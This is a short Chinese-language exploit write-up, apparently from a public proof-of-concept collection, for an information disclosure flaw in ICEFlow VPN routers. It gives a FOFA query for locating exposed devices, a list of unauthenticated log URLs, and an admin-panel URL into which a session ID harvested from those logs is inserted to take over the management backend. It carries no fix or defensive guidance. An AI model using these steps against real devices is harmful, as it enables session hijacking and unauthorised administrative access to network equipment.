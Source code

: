 # ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

```
ICEFlow VPN
```

## FOFA

```
title="ICEFLOW VPN Router"
```

## 漏洞复现

可访问的日志 Url

```plain
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101850471.png)



根据日志信息获得session后，可利用实时登录系统管理后台：



```plain
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

